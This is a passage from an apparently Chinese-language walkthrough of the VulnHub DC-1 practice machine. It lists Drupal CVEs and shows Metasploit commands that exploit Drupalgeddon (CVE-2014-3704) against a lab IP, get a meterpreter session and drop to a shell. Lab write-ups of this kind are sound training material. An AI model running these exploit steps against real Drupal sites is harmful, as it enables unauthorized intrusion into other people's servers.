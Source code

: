 漏洞信息和 POC 见 [BS-Exploits](../../../../RedTeam/Web安全/BS-Exploits.md#Drupal)

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135
run
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/2.png)

可以看到成功弹回一个会话,这里使用 exploit/unix/webapp/drupal_drupalgeddon2 这个模块也可以成功,就不一一展示了

获取 meterpreter 会话后，先整一个 cmd shell
```bash
shell
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC1/3.png)
